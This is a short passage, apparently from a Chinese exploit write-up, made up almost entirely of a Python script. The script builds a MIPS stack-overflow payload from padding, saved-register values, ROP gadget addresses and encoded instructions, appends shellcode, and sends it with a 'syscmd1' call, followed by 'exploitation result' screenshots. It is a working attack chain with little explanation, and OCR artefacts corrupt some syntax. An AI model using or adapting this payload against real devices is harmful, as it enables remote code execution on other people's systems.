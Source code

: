 ```
payload1=‘a’*0x167+s0+s1+s2+s3

payload1+=struct.pack(">I",base1+0x25714)  ###rop1: li $a0,1;move $t9,$s1;jalr $t9;ori $a1,$s0,2

payload1+=‘b’*0x1c+s0+s1+s2+s3+s4

payload1+=struct.pack(">I",base1+0x5f98)  ###rop4:lw $ra,0x1c($sp);…;jr $ra

payload1+=‘c’*0x1c

payload1+=s3

payload1+=‘d’*0x18

payload1+=struct.pack(">I",0x24910101) ###rop7 addiu $s1,$a0,257;addi $s1,$s1,-257;move $t9,$s1;jalr $t9

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",0x0220c821)

payload1+=struct.pack(">I",0x0320f809)

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",base1+0x2bda0) ###rop6:mov $t9,$a0;…;jalr $t9

payload1+=‘e’*0x20+shellcode

if **name** == “**main**”:

syscmd1(payload1)` 
```

利用效果:

![image](../img/8def18e7c80a38bbc964810e310a7a52.png)

![image](../img/f071b26bc3565de692ce61365327d2c3.png)